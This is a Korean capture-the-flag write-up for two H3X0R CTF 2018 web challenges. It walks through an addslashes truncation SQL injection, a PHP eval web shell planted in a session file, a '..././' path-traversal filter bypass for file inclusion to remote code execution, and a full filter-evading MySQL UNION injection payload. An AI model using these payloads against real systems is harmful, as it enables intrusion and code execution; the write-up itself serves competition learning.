 # H3X0R CTF 2018
## goodaegi board (490pts) - solver (1)

이 문제는 SQL Injection과 LFI를 이용한 Session to RCE 하는 문제다.

성공적으로 RCE하기 위해서는 SQL Injection, LFI, 세션을 잘 이용해야 한다.

#### PHP Session to RCE

PHP에서 로그인을 구현할 때 로그인에 성공했다면 보통 아래와 같이 처리한다.

```php
<?php
session_start();
... (생략)
if(isset($fetch['username'])) { // 유저가 존재한다면
	$_SESSION['username'] = $fetch['username']; // 세션 할당
}
```

만약 여기서 ``$fetch['username']`` 변수에 ``<?php phpinfo(); ?>`` 가 들어가면 어떻게 될까?

세션 파일에 들어가는 내용이 ``username|s:19:"<?php phpinfo(); ?>";`` 이렇게 될 것이다.

우분투 기준 PHP 세션은 기본적으로 ``/var/lib/php/sessions/`` 에 저장되며 어느 계정이든 접근이 가능하다.

또한 저장되는 세션 파일명도 알아낼 수 있기 때문에 PHP코드가 포함된 세션을 inclusion 한다면 RCE가 가능하다.

세션 파일명 : ``sess_[random_string]`` 여기서 random_string은 클라이언트가 가지고 있는 PHPSESSID 값이다.

ex) PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0; => sess_fqs54b8ies3uhuhlttlb3lq3d0


단, 회원 가입에서 ``<, >`` 를 막아놨기 때문에 SQL Injection을 활용해야 한다.

#### SQL Injection

``classes/user.class.php`` 에 있는 user_join 함수에서 SQL Injection이 발생한다.

```php
public function user_join($user) {
	$user = array_map('addslashes', $user); // anti sql injection
	$nickname = substr($user['nickname'], 0, 100); // anti sql truncate attack
	$username = substr($user['username'], 0, 100); // anti sql truncate attack
	$password = sha1(md5($user['password']));

	if($message = $this->check_names($nickname, $username)) { // call name check function
		return $message;
	}

	$query = "insert into users values ('{$nickname}', '{$username}', '{$password}');";
	$this->query($query) or die($query);

	return false;
}
```

위 소스의 2 번째 줄부터 4 번째 줄을 확인하면 addslashes를 거치고 substr로 문자열을 자르고 있다.

addslashes를 거치기 때문에 이 코드가 안전하다고 생각할 수 있겠지만 아래와 같이 공격이 가능하다.

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1)#
```

이유는 'a' * 99 뒤에 single quote(')가 붙었을 때 addslashes를 거치면서 앞에 backslashes(\)가 붙고

'a' * 99 + backslashes + single quote가 되면서 '가 잘리게 된다.

즉 아래와 같은 꼴이 된다.

``insert into users values ('aaaaaaaa\', '<inject point>', '<hash>');``

이제 여기서 username에 PHP 코드를 넣어주고 가입하면 된다

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1),(1,0x3c3f206576616c28245f4745545b785d293b3f3e,sha1(md5(0x61)))#
```
> Login
username : ``<? eval($_GET[x]);?>``
password : ``a``

#### LFI to RCE
이제 세션에 PHP 코드를 넣는데 성공했다.

LFI는 ``?p=home.html`` 여기 p 파라미터에서 발생하는데 p 파라미터는 ``secure_page`` 함수를 거친다.

해당 함수는 ``config/function.php`` 에서 확인할 수 있다.

```php
function secure_page($page) { // anti hack
	$page = strtolower(trim($page)); // str to lowercase and remove whitespace
	$page = str_replace(chr(0), '', $page); // remove null byte
	$page = str_replace('../', '', $page); // remove '../'
	if(substr($page, -4, 4) == 'html') { // check extension
		return $page;
	} 
	die('403 forbidden.');
}
```
우선 4 번째 줄을 보면 ``../`` 를 없애고 있다, ``..././`` 이렇게 바꿔주면 가운데 ``../``가 없어지면서 ``../`` 가 된다.

그 다음, 세션은 사용자가 이름을 임의로 바꿀 수 있기 때문에 세션의 맨 뒷자리 4자를 ``html``로 바꾸면 된다.

ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0html``

``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html``

RCE가 성공적으로 되는걸 확인했다면, flag.php를 읽으면 된다.

## sqlgame revenge (480pts) - solver (2)

MySQL Injection 문제다.

```php
<?php
error_reporting(0);
require_once 'config.php';

/*************************

 made by munsiwoo
 sqlgame-revenge

 sqlgame_revenge table structure :
 create table sqlgame_revenge (
	 username varchar(100),
	 password varchar(100)
 ) default charset=utf8;

**************************/

isset($_GET['username'], $_GET['password']) or view_source();

$conn = mysqli_connect('', __USER__, __PASS__, 'hahahoho');
$conn or die('sql server down.');

$username = substr($_GET['username'], 0, 400);
$password = substr($_GET['password'], 0, 400);

$filter  = "'|\"|x|b|y|substr|left|right|char|hex|md|sha|compress|mysql|blog";
$filter .= "|=|like|regexp|if|case|sleep|benchmark|munsiwoo|user|where|strcmp";
$filter .= "|column|table|load|file|view|sys|global|rand|innodb|space|mid|name";

(!preg_match("/{$filter}/is", $username.chr(32).$password)) or die('403 forbidden.');
(!preg_match("/password/i", $username)) or die('403 forbidden.');
(!(substr_count($username.$password, '(') > 25)) or die('403 forbidden.');

$query = "select * from sqlgame_revenge where username='{$username}' and password='{$password}'";
$query = mysqli_query($conn, $query) or die('syntax error.');
$fetch = mysqli_fetch_assoc($query) or die('user not found.');
$fetch = array_map('strtolower', $fetch);

(strtolower($fetch['username']) == 'munsiwoo') or die('who are you?');
(strtolower($fetch['password']) ==  $password) or die('pw incorrect!');

show_flag();

```

payload
```
http://18.216.25.52/7b9b9b1e52a8f5fcff220094034b9390/?username=\&password=||0%20union%20select%20concat(insert(encode(950358551,464374247),1,6,lpad(0,0,0)),insert(insert(encode(1366430893,867605427),1,4,lpad(0,0,0)),3,6,lpad(0,0,0)),insert(insert(insert(encode(546815368,1734964794),1,4,lpad(0,0,0)),1,1,lpad(0,0,0)),4,1,lpad(0,0,0))),(select%20insert(insert(info,1,63,lpad(0,0,0)),367,1,lpad(0,0,0))%20from%20information_schema.processlist%20limit%200,1)%23
```
